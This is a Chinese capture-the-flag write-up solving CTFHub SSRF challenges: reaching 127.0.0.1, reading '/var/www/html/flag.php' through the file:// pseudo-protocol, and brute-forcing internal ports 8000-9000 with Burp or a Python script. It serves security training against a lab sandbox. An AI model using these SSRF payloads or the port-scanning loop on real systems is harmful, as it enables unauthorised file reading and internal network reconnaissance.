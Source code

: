## SSRF
ctfhub终于出新题了，泪目，从0开始的ssrf学习之旅
### 内网访问
提示：尝试访问位于127.0.0.1的flag.php吧

直接访问`?url=127.0.0.1/flag.php`
![](https://img-blog.csdnimg.cn/20200927175541662.png#pic_center)
### 伪协议读取文件
[[WEB安全]SSRF中URL的伪协议](https://www.cnblogs.com/-mo-/p/11673190.html)
[SSRF在有无回显方面的利用及其思考与总结](https://xz.aliyun.com/t/6373#toc-8)

提示：尝试去读取一下Web目录下的flag.php吧
```
URL伪协议：
file://  本地文件传输协议，File协议主要用于访问本地计算机中的文件，就如同在Windows资源管理器中打开文件一样
dict://  Dict协议,字典服务器器协议,dict是基于查询响应的TCP协议,它的目标是超越Webster protocol，并允许客户端在使用过程中访问更多字典。Dict服务器和客户机使用TCP端口2628
gopher://  Gopher协议是互联网上使用的分布型的文件搜集获取网络协议。gopher协议是在HTTP协议出现之前,在internet上常见重用的协议,但是现在已经用的很少了
sftp://  Sftp代表SSH文件传输协议（SSH File Transfer Protocol），或安全文件传输协议（Secure File Transfer Protocol），这是一种与SSH打包在一起的单独协议，它运行在安全连接上，并以类似的方式进行工作
ldap://  LDAP代表轻量级目录访问协议。它是IP网络上的一种用于管理和访问分布式目录信息服务的应用程序协议
tftp://  TFTP（Trivial File Transfer Protocol,简单文件传输协议）是一种简单的基于lockstep机制的文件传输协议，它允许客户端从远程主机获取文件或将文件上传至远程主机。
```
由于题目是伪协议读取文件，又是web目录下，使用绝对路径，直接上payload：`?url=file:///var/www/html/flag.php`
![](https://img-blog.csdnimg.cn/2020092718100556.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L2JtdGg2NjY=,size_16,color_FFFFFF,t_70#pic_center)

### 端口扫描
提示：来来来性感CTFHub在线扫端口,据说端口范围是8000-9000哦

直接使用bp进行端口爆破
![](https://img-blog.csdnimg.cn/20200927195911911.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L2JtdGg2NjY=,size_16,color_FFFFFF,t_70#pic_center)
或者使用python脚本爆破
```python
import requests
url='http://challenge-48d05bc5759898a5.sandbox.ctfhub.com:10080/?url=127.0.0.1:'
port=8000
while port<=9000:
    Wholeurl=url+str(port)
    r = requests.get(Wholeurl)
    print(Wholeurl)
    if(len(r.content)!=0):
        print(port)
        print(r.content)
        break
    port=port+1
print("over")
```
![](https://img-blog.csdnimg.cn/20200927200714747.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L2JtdGg2NjY=,size_16,color_FFFFFF,t_70#pic_center)
